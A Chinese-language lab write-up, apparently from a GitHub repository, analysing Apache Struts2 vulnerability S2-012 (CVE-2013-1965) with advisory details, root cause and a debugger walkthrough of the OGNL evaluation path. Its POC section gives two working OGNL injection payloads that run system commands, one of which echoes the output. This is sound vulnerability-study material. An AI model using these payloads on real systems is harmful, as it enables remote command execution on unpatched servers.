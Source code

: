 # S2-012 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote command execution                                     |
| Maximum security rating | Moderately Critical                                          |
| Recommendation          | Developers should immediately upgrade to [Struts 2.3.14.3](http://struts.apache.org/download.cgi#struts23141) |
| Affected Software       | Struts Showcase App 2.0.0 - Struts Showcase App 2.3.14.2     |
| Reporter                | Xgc Kxlzx, Alibaba Security Team                             |
| CVE Identifier          | [CVE-2013-1965](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-1965) |
| Original Description    | Reported directly to security@a.o                            |

## Problem

在`S2-003`、`S2-005`和`S2-009`中已经解决了`OGNL`表达式解析问题，但是由于它只涉及参数名的防护，没有考虑到参数值注入`OGNL`表达式。因此基于参数名白名单(`acceptableName`)和禁止方法执行(`denyMethodExecution`)的方式只能部分修复漏洞，不能完全解决。

当`action`中配置`result`为`redirect`并且传递了某个参数，在触发`redirect`类型返回时，`Struts2` 获取使用`${name}` 获取其值，在这个过程中会对`name`参数的值执行` OGNL` 表达式解析，从而可以插入任意 `OGNL` 表达式导致命令执行。

```java
<action name="index" class="org.test.IndexAction">
	<result name="redirect" type="redirect">/redirect.action?user=${name}</result>
</action>
```

## Environment

| Struts2 Version | struts-2.2.3           |
| --------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC

<img src="img/20200717095816.jpg" alt="20200717095816" style="zoom:150%;" />

无回显payload:

```java
%{(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec('calc'))}
```

有回显

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

## Debug

在`ParametersInterceptor`的`doIntercept`方法下断点，提交无回显`payload`触发断点（`calc`方便知道哪行代码执行了`ognl`语句）：

`s2-012/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/interceptor/ParametersInterceptor.class:92`

![setParameters](img/setParameters.jpg)

跟入`setParameters`，可以看到只是检查了参数名是否合法，然后将参数名和参数值放入`newStack`：

```java
		...
		Iterator i$ = params.entrySet().iterator();

        while(i$.hasNext()) { //遍历检查参数名是否合法
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            boolean acceptableName = this.acceptableName(name) && (parameterNameAware == null || parameterNameAware.acceptableParameterName(name)); 
            if (acceptableName) {
                acceptableParameters.put(name, entry.getValue());
            }
        }

        ...

        Iterator i$ = acceptableParameters.entrySet().iterator(); 

        while(i$.hasNext()) {
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            Object value = entry.getValue();

            try {
                newStack.setValue(name, value); //将合法的参数对放入newStack
            } catch (RuntimeException var16) {
                ...
            }
        }
```

跳回`doIntercept`, 执行`invocation.invoke()`，通过`invokeActionOnly()`获取到了`action`的返回值`redirect`：

![image-20200720112707313](img/invokeActionOnly.png)

跟入`executeResult()`，看看是如何处理`redirect`的：

![image-20200720113107400](img/executeResult.png)

继续跟入`result.execute()` -> `super.execute()` -> `conditionalParse()` -> `translateVariables()`：

经过一波字符串操作，将`ognl`表达式（`name`）提取了出来，并在`stack`中查找到的值进行替换：

![image-20200720114721752](img/translateVariables.png)

继续循环，`name`已经被替换为了`payload`，在执行`stack.findValue()`时执行了ognl表达式。

![image-20200720142038521](img/findValue2.png)

回到execute()函数，进入doExecute()，执行请求转发操作：

s2-012/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/StrutsResultSupport.class:60

![image-20200720150512188](img/doExecute.png)

![image-20200720145033650](img/sendRedirect.png)

## Reference

- [S2-0012](https://cwiki.apache.org/confluence/display/WW/S2-012)

- [S2-012 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-012/README.zh-cn.md)